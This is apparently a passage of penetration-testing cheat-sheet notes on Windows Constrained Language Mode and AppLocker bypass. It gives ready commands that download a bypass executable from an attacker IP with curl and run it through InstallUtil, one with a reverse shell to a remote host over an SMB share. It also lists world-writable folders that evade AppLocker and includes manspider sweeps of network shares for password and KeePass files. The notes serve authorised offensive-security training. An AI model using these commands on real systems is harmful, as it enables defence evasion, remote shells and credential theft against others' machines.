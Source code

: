 CLM Bypass via Install Util
https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/AppLocker%20Bypass%20PowerShell%20Runspace/Program.cs
```powershell
curl http://192.168.45.201/PSbypassCLM2.exe -o bypass.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\bypass.exe
```

Alt CLM Bypass via Install Util
https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe
```powershell
#alt to using smb share is dropping to disk C;\windows\tasks etc

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U \\10.13.14.15\pwn\PSBypassCLM.exe
```

InviShell
```powershell
C:\AD\Tools\InviShell\InviShell\RunWithRegistryNonAdmin.bat
```

World writable folders that bypass AppLocker
```
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```



### Pillaging

Manspider
```bash
script -a manspider1
manspider windowshosts.txt -u user -p pass -n -f passw login logon cred Untitled -e kdbx cfg config conf ps1 cmd sh bat kdbx txt zip xls doc pdf

script -a manspider2 # this one gets ran and then left to parse if theres time
manspider windowshosts.txt -u user -p pass -n -f username -e txt xls doc pdf conf & 
```
